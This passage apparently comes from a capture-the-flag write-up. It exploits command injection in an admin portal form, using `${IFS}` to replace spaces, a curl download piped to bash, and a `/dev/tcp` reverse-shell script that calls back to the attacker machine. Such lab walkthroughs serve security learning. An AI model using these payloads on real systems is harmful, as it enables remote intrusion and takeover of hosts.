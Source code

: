 ### Command Injection

Looking at the admin portal, there's a form at the bottom asking for a hostname and username. When messing with the values for these fields, the error messages seem to indicate we might have the opportunity for command injection.

![Command injection location](https://blog.shattersec.com/content/images/20250202101228-Pasted%20image%2020250202013503.png)

Command injection payload:

```
host=whatever&username=test`<command>`;#
```

We also notice through testing that any whitespace in the commands does not get properly parsed. This can be remedied by using the `${IFS}` string in place of all spaces.

```
host=whatever&username=test`uname${IFS}-a`;#
```

Attempts to send a bash one-liner reverse shell through command injection aren't working. Maybe we can host our own bash script, transfer it to the victim machine, and execute remotely.

shell.sh:

```bash
#!/bin/bash
bash -i >& /dev/tcp/10.10.14.46/4444 0>&1
```

On our attacker machine:

```sh
python3 -m http.server 80
```

Lets download and execute our script, saving it in the `/tmp` folder:

![Injection 1](https://blog.shattersec.com/content/images/20250202101311-Pasted%20image%2020250202013546.png)

```
host=whatever&username=test`curl${IFS}http://<attacker ip>/shell.sh${IFS}-o${IFS}/tmp/shell.sh|bash`;#
```

For whatever reason, there's no activity on our netcat listener. Trying to troubleshoot the issue, we notice the script was transferred to `/tmp`, but just wasn't executed. Let's send a command to the victim to execute it again:

![Injection 2](https://blog.shattersec.com/content/images/20250202101337-Pasted%20image%2020250202013719.png)

```
host=whatever&username=test`bash${IFS}/tmp/shell.sh`;#
```

Great success! We've got a reverse shell as the `app` user. We also notice the `cloudhosting-0.0.1.jar` file, seemingly running the web application.

### .jar Inspection
